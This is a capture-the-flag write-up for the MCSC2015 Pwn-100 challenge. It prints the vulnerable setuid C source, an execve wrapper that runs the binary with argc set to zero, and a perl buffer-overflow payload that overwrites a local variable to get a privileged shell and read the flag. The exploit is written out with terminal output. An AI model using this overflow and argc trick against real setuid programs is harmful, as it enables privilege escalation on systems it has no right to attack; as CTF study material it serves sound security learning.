 \#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
#MCSC2015 writeup for Pwn-100<br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>

pwn0@MCSC2015:/challenges/pwn0$ ls -l<br>
total 16<br>
-rws--s--x 1 pwned0 pwned0 7492 mai   18 15:13 0<br>
-r-------- 1 pwned0 pwned0   52 mai   18 15:13 FLAG<br>
-rw-r--r-- 1 root   root    558 mai   18 15:13 pwn0.c<br>
<br>
after a quick view in pwn0.c, here's an interesting function<br>
<br>
void vuln()<br>
{<br>
	unsigned int reg;<br>
	char buffer[BUFF_SIZE];<br>
	fgets(buffer , BUFF_SIZE+5 , stdin);<br>
	if(reg == 78954)<br>
	{<br>
		printf("You Win\n");<br>
		system("/bin/dash");<br>
	}<br>
}<br>
<br>
However, this function is executed if and only if argc is equal to zero.<br>
In that case, execve can be handy ...<br>
<br>
<br>
Step 1 : run the program with argc equals to zero to allow the function vuln() to be executed.<br>
Step 2 : overwrite the variable reg with 78954<br>
if(reg == 78954)<br>
{<br>
	printf("You Win\n");<br>
	system("/bin/dash");<br>
}<br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
Step1 : run a program with argc=0<br>
What's special about the family exec call system ?<br>
execve allows you to specify the command-line arguments (including the program name).<br>
a normal call to execve for example would be :<br>
execve("/home/xxx/prog","prog",NULL) witch is similar to /home/xxx/prog with argc equals to 1 as usual ....<br>
execve("/home/xxx/prog",NULL,NULL) would be a little bit different .... argc is equal to zero in that case.<br>
<br>
with that said, let's start exploiting .....<br>
First, we write a small program <br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
\#include \<stdio.h><br>
\#include \<stdlib.h><br>
int main()<br>
{<br>
	execve("/challenges/pwn0/0",NULL,NULL);<br>
}<br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
pwn0@MCSC2015:/tmp$ mkdir /tmp/testing<br>
pwn0@MCSC2015:/tmp$ cd /tmp/testing/<br>
pwn0@MCSC2015:/tmp/testing$ cat wrapper.c<br>
\#include \<stdio.h><br>
\#include \<stdlib.h><br>
int main()<br>
{<br>
	execve("/challenges/pwn0/0",NULL,NULL);<br>
}<br>
pwn0@MCSC2015:/tmp/testing$ gcc wrapper.c -o wrapper<br>
pwn0@MCSC2015:/tmp/testing$ ./wrapper <br>
Good Boy<br>
test<br>
pwn0@MCSC2015:/tmp/testing$<br>
<br>
we are finally able to execute the vuln() function, let's try to exploit it:<br>
The buffer size is 64, 78954 to hexadecimal is 0x1346A<br>
===========================<br>
A successful exploitation would be like this:<br>
pwn0@MCSC2015:/challenges/pwn0$ perl -e 'print "A"x64 . "\x6a\x34\x01\x00"' > /tmp/testing/input<br>
pwn0@MCSC2015:/challenges/pwn0$ cat /tmp/testing/input -|/tmp/testing/wrapper <br>
Good Boy<br>
You Win<br>
id<br>      
uid=1001(pwn0) gid=1001(pwn0) euid=1002(pwned0) egid=1002(pwned0) groups=1002(pwned0),1001(pwn0)<br>
cat FLAG<br>
flaG{I_4M_Th3_EaSy_One_Pwn_th3_N3xt_L3vel_If_U_C4N}<br>
<br>
